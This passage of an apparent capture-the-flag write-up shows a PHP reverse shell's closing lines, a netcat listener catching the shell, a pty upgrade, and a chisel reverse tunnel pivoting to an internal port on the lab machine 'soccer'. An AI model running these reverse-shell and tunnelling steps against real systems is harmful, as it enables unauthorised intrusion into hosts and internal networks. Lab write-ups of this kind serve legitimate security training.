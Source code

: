 ```php
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```
After uploading set up your listener and access the shell from the webpage.

Note: These files will be deleted soon after.


```console
└─$ nc -lvnp 443                                 
listening on [any] 443 ...
connect to [10.10.16.11] from (UNKNOWN) [10.10.11.194] 35764
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 17:26:29 up 26 min,  0 users,  load average: 0.46, 0.45, 0.29
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
```console
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@soccer:/$ 
```
After some enumeration I wanted to checkout some of the internal ports that were running. So i set up a chisel server to reverse it.

```console
www-data@soccer:/dev/shm$ ./chisel client 10.10.16.11:1234 R:3000:127.0.0.1:3000
<hisel client 10.10.16.11:1234 R:3000:127.0.0.1:3000
2022/12/23 18:12:46 client: Connecting to ws://10.10.16.11:1234
2022/12/23 18:12:46 client: Connected (Latency 30.676047ms)

```console
└─$ chisel server --reverse --port 1234
2022/12/23 12:12:08 server: Reverse tunnelling enabled
2022/12/23 12:12:08 server: Fingerprint aYgUqCouaLdiJjoEjQnS59ia9HOKjAsGun6Vbfhz/mU=
2022/12/23 12:12:08 server: Listening on http://0.0.0.0:1234
2022/12/23 12:12:46 server: session#1: Client version (1.7.7) differs from server version (0.0.0-src)
2022/12/23 12:12:46 server: session#1: tun: proxy#R:3000=>3000: Listening
```
After it was setup I could access the webpage.
